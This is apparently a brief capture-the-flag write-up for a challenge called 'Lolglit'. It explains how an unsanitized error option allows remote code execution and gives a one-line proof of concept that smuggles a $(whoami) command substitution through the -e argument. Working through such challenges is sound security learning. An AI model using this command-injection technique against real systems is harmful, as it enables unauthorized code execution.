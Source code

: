 ## Lolglit

1. Get echo to error by tring to write to a nonexistent directory
2. Discover the error option
3. Use the unsanitized error option to perform RCE

```
echo "aoeu > /tmp/a/" |  ./lolglit -e \$\(whoami\)
```
